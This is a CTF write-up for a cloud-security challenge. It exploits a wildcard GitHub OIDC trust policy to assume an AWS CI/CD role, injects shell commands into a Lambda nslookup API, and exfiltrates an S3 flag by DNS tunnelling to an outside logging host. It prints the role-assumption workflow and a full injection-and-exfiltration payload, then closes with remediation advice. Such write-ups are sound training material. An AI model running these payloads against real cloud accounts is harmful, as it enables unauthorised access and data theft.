


<div align="center">
  

  <p align="center">
    
    
    
    
    
  </p>
</div>

---

## 🎯 Executive Summary & Challenge Profile

> [!IMPORTANT]  
> **Challenge Objective:** Perform forensic analysis on a provided Git repository (`dotgit.zip`), identify an OIDC wildcard trust policy vulnerability, assume an AWS CI/CD IAM identity, exploit a command injection vulnerability in an isolated AWS Lambda function, and bypass VPC network isolation using Route 53 DNS tunneling to exfiltrate the Stage 1 flag.

<table>
  <thead>
    <tr>
      <th width="220">Parameter</th>
      <th width="580">Intelligence & Endpoint Specification</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>🏷️ Challenge Name</code></td>
      <td><strong>"Have Some Faith" - Stage 1</strong></td>
    </tr>
    <tr>
      <td><code>💎 Challenge Points</code></td>
      <td><strong>100 Points</strong></td>
    </tr>
    <tr>
      <td><code>🎯 Target AWS Account</code></td>
      <td><code>009661764077</code> (us-east-1)</td>
    </tr>
    <tr>
      <td><code>🔑 Compromised IAM Role</code></td>
      <td><code>arn:aws:iam::009661764077:role/cicdRole</code></td>
    </tr>
    <tr>
      <td><code>⚡ Execution API Gateway</code></td>
      <td><code>https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2</code></td>
    </tr>
    <tr>
      <td><code>📦 Target Flag Bucket</code></td>
      <td><code>s3://codec4f26c862a321ef5/flag.txt</code></td>
    </tr>
    <tr>
      <td><code>🛡️ VPC Restrictions</code></td>
      <td>Isolated VPC (No Internet Gateway / No NAT Gateway / Outbound HTTP & HTTPS Blocked)</td>
    </tr>
    <tr>
      <td><code>🏴 Captured Stage 1 Flag</code></td>
      <td><strong><code>1a1jelrlfg2yi2s0</code></strong></td>
    </tr>
  </tbody>
</table>

---

## 🗺️ Architectural Threat Model & Full Attack Chain

The following Mermaid diagram illustrates the end-to-end multi-stage attack chain—from Git forensics to OIDC token federation, Lambda command injection, and out-of-band DNS tunneling:



---

## 🧭 Comprehensive Step-by-Step Methodology

### <samp>STEP 01</samp> ✦ Git Commit Forensics & IaC Architecture Discovery
The challenge provided an archive file named `dotgit.zip`. Our first step was to unpack the archive, reconstruct the git directory tree, and perform forensic commit history analysis.

```bash
# Unpack archive and inspect directory structure
unzip dotgit.zip -d dotgit_repo && cd dotgit_repo
git checkout -f HEAD
git log --oneline --all --graph
```

By auditing the Terraform Infrastructure as Code (IaC) configuration files (`main.tf`, `github.tf`, `variables.tf`, and the `policies/` directory), we mapped how the target infrastructure deployed its CI/CD IAM integration with GitHub Actions.

> [!NOTE]  
> Running `git log -p` across all historical commits revealed that commit `17e4932` introduced an IAM trust policy template (`policies/cicd-trust-policy.json.tpl`) designed to authenticate GitHub Actions runners via AWS OpenID Connect (OIDC).

---

### <samp>STEP 02</samp> ✦ Deep Dive into the OIDC Wildcard Trust Vulnerability
When configuring AWS OIDC federation for GitHub Actions, access control relies on the `sub` (Subject) claim embedded in the JWT token issued by `token.actions.githubusercontent.com`. 
- The standard `sub` claim format is: `repo:<owner>/<repository>:ref:refs/heads/<branch>`.
- In `policies/cicd-trust-policy.json.tpl`, we discovered the following IAM trust statement:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::${account_id}:oidc-provider/token.actions.githubusercontent.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringLike": {
                    "token.actions.githubusercontent.com:sub": "repo:*/*:ref:refs/heads/corgi"
                }
            }
        }
    ]
}
```

> [!WARNING]  
> **The Critical Flaw:** The author used a wildcard in the repository path: `"repo:*/*:ref:refs/heads/corgi"`.  
> This means AWS does **not** check which GitHub organization or repository is making the request! Any GitHub user who creates a repository and pushes a workflow to a branch named `corgi` can successfully assume `arn:aws:iam::009661764077:role/cicdRole`.

<table>
  <thead>
    <tr>
      <th width="50%">❌ Vulnerable IAM Trust Policy (Wildcard)</th>
      <th width="50%">✅ Secure IAM Trust Policy (Least Privilege)</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>"token.actions.githubusercontent.com:sub": "repo:*/*:ref:refs/heads/corgi"</code></td>
      <td><code>"token.actions.githubusercontent.com:sub": "repo:MyOrg/MyProtectedRepo:ref:refs/heads/corgi"</code></td>
    </tr>
    <tr>
      <td>Allows <strong>any repository in the world</strong> on branch <code>corgi</code> to assume the AWS role.</td>
      <td>Strictly restricts assumption to a specific repository and branch within an organization.</td>
    </tr>
  </tbody>
</table>

---

### <samp>STEP 03</samp> ✦ Assuming `cicdRole` & Automated AWS Surface Enumeration
To exploit this OIDC wildcard, we created a GitHub Actions workflow file (`.github/workflows/stage1.yml`) in our own repository on a branch named `corgi`.

<details>
<summary><b>📄 Click to Expand: Complete GitHub Actions OIDC Authentication & Enumeration Workflow</b></summary>

```yaml
name: Cloud Escape - Stage 1 Recon & Enumeration
on:
  push:
    branches: [ corgi ]
  workflow_dispatch:

permissions:
  id-token: write  # Required for requesting the OIDC JWT token
  contents: read

jobs:
  aws_recon:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout Repository
        uses: actions/checkout@v4

      - name: Configure AWS Credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::009661764077:role/cicdRole
          aws-region: us-east-1

      - name: Verify Identity & Enumerate Cloud Resources
        run: |
          echo "=== Caller Identity ==="
          aws sts get-caller-identity
          
          echo "=== Discovered S3 Buckets ==="
          aws s3api list-buckets --query "Buckets[].Name"
          
          echo "=== Discovered Lambda Functions ==="
          aws lambda list-functions --query "Functions[].[FunctionName,VpcConfig.VpcId]"
          
          echo "=== Discovered API Gateway Endpoints ==="
          aws apigateway get-rest-apis --query "items[].[name,id]"
```
</details>

#### Key Intelligence Uncovered by the Recon Pipeline:
1. **Target S3 Bucket Discovered**: `codec4f26c862a321ef5` (contains `flag.txt`, but direct external `s3:GetObject` is denied by bucket policies restricting reads to inside the VPC).
2. **Lambda Function Discovered**: `nslookupv2` running inside a private VPC.
3. **API Gateway Execution URL**: `https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2`.

---

### <samp>STEP 04</samp> ✦ Lambda Command Injection Deep Dive (`/dev/nslookupv2`)
By examining the `/dev/nslookupv2` API Gateway endpoint, we tested JSON payloads containing a `"domain"` parameter.
- When sending `{"domain": "google.com"}`, the API returned standard DNS resolution output.
- We tested for command injection using shell separators (`page.com; id; whoami`).



> [!TIP]  
> Because the Lambda function executed `/opt/nslookup <domain>` via `subprocess.run(..., shell=True)`, appending a semicolon (`;`) allowed us to execute arbitrary Linux shell commands with the full IAM permissions of the Lambda execution role!

---

### <samp>STEP 05</samp> ✦ Bypassing VPC Network Isolation via Route 53 DNS Tunneling
While we had Arbitrary Command Execution inside the Lambda sandbox, extracting `flag.txt` presented a significant networking challenge:
- **VPC Outbound Blocked**: The Lambda function ran inside an isolated VPC without an Internet Gateway (IGW) or NAT Gateway. Commands like `curl`, `wget`, or HTTP exfiltration timed out immediately.
- **Why DNS Exfiltration Works**: In AWS VPCs, the default **Route 53 VPC DNS Resolver (`169.254.169.253`)** is always accessible on the second IP of the VPC subnet. Even in isolated VPCs, recursive DNS lookups for external domain names are resolved out-of-band by AWS DNS servers!

We crafted a multi-command shell payload that copied the flag from S3 to `/tmp`, hex-encoded the bytes using Python 3, and transmitted the string as a subdomain query to an external DNS listener (`dnslog.cn`):

<details>
<summary><b>📄 Click to Expand: Complete Command Injection & Route 53 DNS Exfiltration Payload</b></summary>

```json
{
  "domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c \"import binascii; print(binascii.hexlify(open(\\\"/tmp/flag.txt\\\",\\\"rb\\\").read()).decode())\"); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"
}
```

#### Detailed Command Execution Breakdown:
1. `;` — Closes and terminates the initial `/opt/nslookup` process.
2. `/opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt` — Uses the AWS CLI Lambda Layer (pre-installed in `/opt/aws`) to download `flag.txt` from the restricted S3 bucket into the `/tmp` writable sandbox directory.
3. `FLAG=$(python3 -c "import binascii; print(binascii.hexlify(open('/tmp/flag.txt','rb').read()).decode())")` — Reads `flag.txt` and converts the raw ASCII string into a clean hexadecimal string suitable for DNS subdomain RFC compliance (no spaces or punctuation).
4. `/opt/nslookup $FLAG.ixz9wv.dnslog.cn` — Issues an outbound DNS lookup via the Route 53 VPC Resolver, causing our external authoritative DNS server to log the full hexadecimal flag!
</details>

---

## 🏁 Flag Verification & Hexadecimal Decoding

Within seconds of triggering the automated GitHub Actions workflow, our DNS listener (`dnslog.cn`) intercepted the recursive DNS query generated by the AWS Route 53 Resolver:

```
[DNS Query Intercepted] -> 3161316a656c726c6667327969327330.ixz9wv.dnslog.cn (A Record Lookup)
```

<table>
  <thead>
    <tr>
      <th width="35%">Exfiltration Stage</th>
      <th width="65%">Intercepted Data & Conversion</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>📡 Raw Intercepted DNS Subdomain</code></td>
      <td><code>3161316a656c726c6667327969327330</code></td>
    </tr>
    <tr>
      <td><code>🔢 ASCII Conversion / Decoding</code></td>
      <td><code>31=1</code> <code>61=a</code> <code>31=1</code> <code>6a=j</code> <code>65=e</code> <code>6c=l</code> <code>72=r</code> <code>6c=l</code> <code>66=f</code> <code>67=g</code> <code>32=2</code> <code>79=y</code> <code>69=i</code> <code>32=2</code> <code>73=s</code> <code>30=0</code></td>
    </tr>
    <tr>
      <td><code>🏴 Verified Stage 1 Flag</code></td>
      <td><strong><code>1a1jelrlfg2yi2s0</code></strong></td>
    </tr>
  </tbody>
</table>

---

## 🛡️ Remediation & Cloud Security Best Practices

<table>
  <thead>
    <tr>
      <th width="25%">Vulnerable Component</th>
      <th width="75%">Recommended Architectural Defense & Mitigation</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>🔑 IAM OIDC Federation</code></td>
      <td>Never use wildcards in the OIDC <code>sub</code> claim. Always pin the exact organization, repository, and branch: <code>"repo:MyOrg/MyRepo:ref:refs/heads/main"</code>.</td>
    </tr>
    <tr>
      <td><code>💉 Subprocess Execution</code></td>
      <td>Never invoke system commands using <code>shell=True</code> with user-controlled input. Use parameter lists: <code>subprocess.run(["/opt/nslookup", domain], shell=False)</code>.</td>
    </tr>
    <tr>
      <td><code>🌐 Route 53 VPC DNS</code></td>
      <td>In isolated VPCs, deploy <strong>Amazon Route 53 Resolver DNS Firewall</strong> rules to whitelist only approved domains and prevent DNS exfiltration tunneling.</td>
    </tr>
  </tbody>
</table>

---

<div align="center">
  <sub>🛡️ Documented by <b>Agent freecandy</b> • Cloud Escape CTF 2026 • Advanced Cloud Infrastructure Security</sub>
</div>
